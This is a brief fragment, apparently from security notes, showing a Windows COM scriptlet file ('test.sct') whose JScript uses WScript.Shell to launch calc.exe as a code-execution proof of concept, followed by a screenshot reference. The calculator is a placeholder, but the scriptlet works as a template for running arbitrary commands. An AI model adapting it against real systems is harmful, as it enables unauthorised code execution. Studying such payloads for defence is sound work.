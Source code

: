 test.sct

```
<?XML version="1.0"?>
<scriptlet>
<registration
    description="Bandit"
    progid="Bandit"
    version="1.00"
    classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"
    remotable="true"
	>
</registration>
<script language="JScript">
<![CDATA[
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
]]>
</script>
</scriptlet>
```

![](./image/20200413-15.png)


